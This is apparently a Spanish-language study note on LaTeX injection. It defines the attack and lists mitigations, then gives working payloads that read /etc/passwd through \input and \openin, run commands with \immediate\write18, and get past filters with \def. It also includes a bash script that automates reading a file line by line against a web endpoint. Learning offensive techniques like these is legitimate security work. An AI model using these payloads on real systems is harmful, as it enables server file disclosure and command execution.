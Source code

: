 -----
- Tags: #ataques #basico #teoria #practica
----

# ¿ Que es **LaTeX** ?

**LaTeX** es un sistema de composición de textos, orientado a la creación de documentos escritos que presenten una alta calidad tipográfica. Esta formado mayoritariamente por órdenes construidas a partir de comandos de **TeX** pero con la ventaja de **poder aumentar las capacidades** de  **LaTeX** utilizando comandos propios de **TeX** .

----

# ¿ Que son las **LaTeX Injections** ? 

Las **inyecciones LaTeX** son un tipo de ataque que se aprovecha de las vulnerabilidades en las aplicaciones web que permiten a los usuarios ingresar **texto formateado** en **LaTeX**. LaTeX es un sistema de composición de textos que se utiliza comúnmente en la escritura académica y científica.

Estos ataques ocurren cuando un atacante **ingresa código LaTeX malicioso** en un campo de entrada de texto que luego se procesa en una aplicación web. El código LaTeX puede ser diseñado para **aprovechar vulnerabilidades** en la aplicación conseguir una [[RCE - (Remote Command Execution)]]. 

Un ejemplo podría ser un atacante qeu aprovecha la capacidad de LaTeX para incluir gráficos y archivos en una aplicación web. Un atacante podría enviar un código LaTeX que incluya un enlace a un archivo malicioso, como un virus o un troyano, que podría infectar el servidor o los sistemas de la red. 

-----

#  Evitar estos ataques 

Para evitar las **inyecciones LaTeX**, las aplicaciones web deben validar y limpiar adecuadamente los datos que se reciben antes de procesarlos en LaTeX. Esto incluye la eliminación de caracteres especiales y la limitación de los comandos que pueden ser ejecutados en LaTeX.

También es importate que las aplicaciones web se ejecuten con privilegios mínimos en la red y que se monitorees regularmente las actividades de la aplicación para detectar posibles inyecciones. Además, se debe fomentar la educación sobre la seguridad en el use de LaTeX y cómo evitar la introducción de código malicioso.

---

# Explotación 

En la explotación de LaTeX, existen varias inyecciónes las cuales se pueden ver ([Inyecciones de LaTeX](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection), [más inyecciones en otra página](https://salmonsec.com/cheatsheet/latex_injection)). 

## Read file 

`\input{/etc/passwd}` Esto aveces puede entrar en conflicto devido a los caracteres

Por lo que podriamos hacer uso de este input para leer archivos y haciendo uso `\immediate\write18{command}` para hacer algo como lo sig. 

`\immediate\write18{cat /etc/passwd | base64 > output}`
`\input{output}

 Otras inyecciones sirven para leer unicamente arcivos .tex:

`\include{somefile} # load .tex file (somefile.tex)`

Tambien podriamos leer línea por línea:

Para ver la primera línea de un archivo: 

`\newread\file`
`\openin\file=/etc/passwd`
`\read\file to\line`
`\text{\line}`
`\closein\file`

Para ver la segunda: 

`\newread\file`
`\openin\file=/etc/passwd`
`\read\file to\line`
`\read\file to\line`
`\text{\line}`
`\closein\file`

Y así sucesivamente para ver más lineas agregando el `\read\file to\line`

Si bien podriamos intentar leer multiples líneas de LaTeX, hay veces que por determinados carácteres no se logran visualizar, por lo que podriamos tener un error, en ese caso seria más optimo crear un script en bash para lograr esto mismo. 

Ejemplo de script:

```shell
#!/bin/bash 
 
# Global Vars 

declare -r url="http://localhost/ajax.php" # Declaramos una variable unicamente de "lecutar" para evitar ocupar mucho espacio
filename=$1

if [ $filename ]; then
	line="%0A\read\file%20to\line"
  for i in $(seq 1 100);do 

	file_to_download=$(curl -s -X POST $url -H "Content-Type: application/x-www-form-urlencoded; charset=UTF-8" -d "content=\newread\file%0A\openin\file=$filename$line%0A\text{\line}%0A\closein\file&template=blank" | /usr/bin/grep -i download | /usr/bin/awk 'NF{print $NF}')
  
	if [ $file_to_download ]; then 
	  wget $file_to_download &>/dev/null 
  
	  file_to_convert=$(echo $file_to_download | /usr/bin/tr '/' ' ' | /usr/bin/awk 'NF{print $NF}')
	  /usr/bin/pdftotext $file_to_convert 
  
	  file_to_read=$(echo $file_to_convert | /usr/bin/sed 's/\.pdf/\.txt/')
	  rm $file_to_convert 
	  /usr/bin/cat $file_to_read | /usr/bin/head -n 1
	  rm $file_to_read
	  line+="%0A\read\file%20to\line"
	else 
	  line+="%0A\read\file%20to\line"
	fi
  done 
else 
  echo -e "\n\n\t[!] Usage: $0 /etc/passwd\n\n"
fi 
```

Tambíen podriamos intentar ejecutar comandos 

`\immediate\write18{whoami}`

O ejecutar un comando y leer el output que es guardado en un archivo: 

`\immediate\write18{whoami > output}`
`\newread\file`
`\openin\file=output
`\read\file to\line`
`\read\file to\line`
`\text{\line}`
`\closein\file`

Y para burlar algunas reinstricciones se podria hacer uso de la definición de "variables": 

`\def\first{in}
`\def\second{put}`

----

`\newread\file \openin\file=/etc/passwd \read\file to\line \text{\line} \closein\file $\lstinputlisting{/etc/passwd}$`
